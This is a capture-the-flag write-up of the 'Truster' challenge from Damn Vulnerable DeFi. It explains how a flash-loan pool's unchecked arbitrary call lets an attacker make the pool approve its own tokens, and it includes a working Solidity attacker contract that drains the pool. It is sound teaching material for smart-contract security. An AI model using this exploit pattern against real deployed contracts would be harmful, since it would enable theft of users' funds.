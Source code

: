 # 3 - Truster

## **Problem:**
More and more lending pools are offering flashloans. In this case, a new pool has launched that is offering flashloans of DVT tokens for free.
The pool holds 1 million DVT tokens. You have nothing.
To pass this challenge, rescue all funds in the pool executing a single transaction. Deposit the funds into the designated recovery account.

## **Solution:**
The flashloan function takes the target contract address as an input, which will be responsible for repaying the debt. The function directly calls target.functionCall(data) from the Address library of OpenZeppelin, without validating the type of contract at the target address.

We exploit this behavior by initiating a flashloan with a borrowed amount of 0 tokens. We pass the address of the token contract as the target and provide the function signature of the approve function as the data. This results in the TrusterLenderPool contract approving tokens to our contract.

With this approval in place, our contract is able to transfer the entire token balance from the pool to itself, effectively bypassing the intended security checks.

### **Code:**
```javascript
contract Attacker {
    TrusterLenderPool public pool;
    DamnValuableToken public token;
    address public recovery;

    constructor(TrusterLenderPool _pool, DamnValuableToken _token, address _recovery) {
        pool = _pool;
        token = _token;
        recovery = _recovery;
    }

    function attack() external {
        pool.flashLoan(0, address(this), address(token), abi.encodeWithSignature("approve(address,uint256)", address(this), type(uint256).max));
        token.transferFrom(address(pool), recovery, 1_000_000e18);
    }        
}
```

